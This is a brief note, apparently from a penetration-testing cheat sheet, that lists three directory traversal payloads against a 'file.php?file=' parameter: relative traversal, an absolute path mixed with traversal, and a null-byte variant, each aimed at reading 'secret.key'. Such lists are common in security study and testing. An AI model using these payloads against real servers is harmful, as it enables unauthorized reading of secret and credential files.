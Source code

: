 ## Directory Traversal Random Notes

- /file.php?file=../../secret.key
- /file.php?file=/var/www/../../secret.key
- /file.php?file=../../secret.key%00
